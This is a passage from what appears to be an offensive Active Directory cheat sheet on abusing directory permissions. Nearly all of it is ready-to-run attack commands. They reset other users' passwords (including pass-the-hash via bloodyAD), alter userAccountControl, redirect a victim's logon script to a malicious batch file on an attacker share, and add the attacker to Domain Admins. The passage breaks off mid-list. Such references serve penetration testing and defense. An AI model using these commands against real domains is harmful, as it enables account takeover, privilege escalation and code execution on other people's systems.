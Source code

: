 		# Set back the userAccountControl
		PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose
		PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
		```

* Reset another user's password.
	* Windows/Linux:
		```ps1			
		# Using bloodyAD with pass-the-hash
		bloodyAD --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B set password john.doe 'Password123!'
		```
	* Windows only:
		```ps1
		# https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
		$user = 'DOMAIN\user1'; 
		$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
		$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
		$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
		Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
		```
	* Linux only:
		```ps1
		# Using rpcclient from the  Samba software suite
		rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
		```

* WriteProperty on an ObjectType, which in this particular case is Script-Path, allows the attacker to overwrite the logon script path of the delegate user, which means that the next time, when the user delegate logs on, their system will execute our malicious script : 
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.0.0.5 -d example.lab -u attacker -p 'Password123*' set object delegate scriptpath -v '\\10.0.0.5\totallyLegitScript.bat'
		```
	* Windows only:
		```ps1
		Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.bat"
		```

### Group

* This ACE allows us to add ourselves to the Domain Admin group : 
	* Windows/Linux:
		```ps1
		bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 add groupMember 'Domain Admins' hacker
		```
	* Windows only:
		```ps1
		net group "domain admins" hacker /add /domain
		```
	* Linux only:
		```ps1
		# Using the Samba software suite
